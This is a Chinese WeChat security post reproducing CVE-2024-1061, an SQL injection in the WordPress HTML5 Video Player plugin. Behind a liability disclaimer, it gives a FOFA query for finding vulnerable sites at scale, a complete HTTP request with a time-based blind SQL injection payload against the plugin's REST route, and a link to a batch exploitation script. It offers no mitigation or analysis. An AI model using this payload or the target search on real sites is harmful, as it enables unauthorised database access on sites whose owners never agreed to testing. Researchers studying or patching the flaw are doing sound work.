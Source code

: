 #  漏洞复现-WordPress HTML5 Video Player SQL注入漏洞(CVE-2024-1061)附POC   
 Yi安全   2024-02-18 20:02  
  
**由于微信公众号推送机制改变了，快来星标不再迷路，谢谢大家！**  
  
****  
免责声明  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
文  
章中敏感信息均  
已做多层打马处理。  
传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行  
负责。  
  
  
  
  
  
 HTML5 Video Player    
  
## 一：漏洞描述  
  
         
WordPress  
   
Plugin  
   
HTML5  
   
Video  
   
Player  
 < 2  
.5  
.25  
## 二：网络空间测绘查询  
  
fofa  
```
fofa："wordpress" && body="html5-video-player"
```  
## ‍三：漏洞  
  
poc****  
```
GET /?rest_route=/h5vp/v1/view/1&id=1'+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0;
Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

```  
  
## 四：批量脚本获取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnHQhiaeqbSY66qOAgyWERC7IYM8cb1JPCoMaZxlibv2aMuep1dXejxG6E0vQkNBgUSB7wX7qoj4hslQ/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/Y1-K1NG/poc_exp/tree/main/20240218WordPress%20Plugin%20HTML5%20Video%20Player%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E
```  
  
  
‍  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
由于传播、利用本公众号Yi安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Yi安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
  
  
